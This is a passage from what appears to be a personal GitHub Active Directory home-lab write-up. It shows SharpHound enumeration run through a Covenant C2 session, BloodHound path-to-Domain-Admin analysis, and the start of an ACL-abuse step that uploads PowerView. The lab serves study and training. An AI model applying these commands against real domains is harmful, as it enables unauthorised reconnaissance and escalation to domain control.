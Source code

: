 # 4. Movement, Pivoting, and Persistence in Domain

> ### Machines Required: WorkStation-01,02 and Domain Controller

## 1. Domain Through BloodHound

- Interact with the session of user s.chisholm, Change the directory to `C:\Users\Public`and upload `sharphound.exe` on the target machine.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2ed13000-782a-4e4e-8208-38af83fa52ff)

- Execute the sharphound by using cmd `shell sharphound.exe -c all`.

```powershell
(singhx) > shell sharphound1.exe -c all

76 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-07-27T14:14:54.0910809+01:00|INFORMATION|SharpHound Enumeration Completed at 2:14 PM on 7/27/2023! Happy Graphing!
```
- Download the `zip` file using Covenant's download command.

```powershell
(singhx) > download 20230727141452_BloodHound.zip

Download completed: 20230727141452_BloodHound.zip
```
- Start `neo4j console` and log in.
- Open BloodHound and upload the zip file we downloaded.
- On navigating to the Analysis tab and finding the shortest path to domain admins we get a graph showing the path to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/092a6d8e-06bf-4b55-a8d1-2c3e9d8bc812)

## 2. Abusing ACLs

- Download [PowerView_dev.ps1](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView-Dev.ps1) and upload to the target machine using Covenant's Upload method.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/42592b10-2287-4788-bb00-92640b397eac)


![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/53c1f8b1-8045-46e2-aca1-9a28f825850b)

